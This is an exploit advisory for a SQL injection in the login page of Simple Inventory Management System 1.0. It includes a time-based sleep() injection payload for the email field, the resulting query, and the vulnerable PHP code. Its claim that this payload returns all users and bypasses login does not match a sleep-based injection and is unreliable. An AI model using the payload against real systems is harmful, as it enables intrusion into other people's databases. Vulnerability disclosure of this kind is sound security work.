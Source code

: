 ```yaml
---
title: Simple Inventory Management System 1.0 SQL Injection
published: true
---
```


- Exploit Title: Simple Inventory Management System - SQL Injection
- Google Dork: N/A
- Application: Simple Inventory Management System
- Date: 26.02.2024
- Bugs: SQL Injection
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/15419/simple-inventory-management-system-phpoop-free-source-code.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver
- CVE : N/A


### Vulnerability Description:

This code snippet is potentially vulnerable to SQL Injection. User inputs `($_POST['email'] and $_POST['pwd'])` are directly incorporated into the SQL query without proper validation or sanitization, exposing the application to the risk of manipulation by malicious users. This could allow attackers to inject SQL code through specially crafted input.


### Proof of Concept (PoC):

An example attacker could input the following values:

```plantext
email: test@gmail.com'%2b(select*from(select(sleep(20)))a)%2b'
pwd: test
```

This would result in the following SQL query:

```sql
SELECT * FROM users WHERE email = 'test@gmail.com'+(select*from(select(sleep(20)))a)+'' AND password = 'anything'
```

This attack would retrieve all users, making the login process always successful.

[Request Response foto](https://i.imgur.com/slkzYJt.png)

### Vulnerable code section:

***

```
ims/login.php
```

```php
<?php 
ob_start();
session_start();
include('inc/header.php');
$loginError = '';
if (!empty($_POST['email']) && !empty($_POST['pwd'])) {
  include 'Inventory.php';
  $inventory = new Inventory();

  // Vulnerable code
  $login = $inventory->login($_POST['email'], $_POST['pwd']); 
  //

if(!empty($login)) {
    $_SESSION['userid'] = $login[0]['userid'];
    $_SESSION['name'] = $login[0]['name'];      
    header("Location:index.php");
  } else {
    $loginError = "Invalid email or password!";
  }
}
?>
```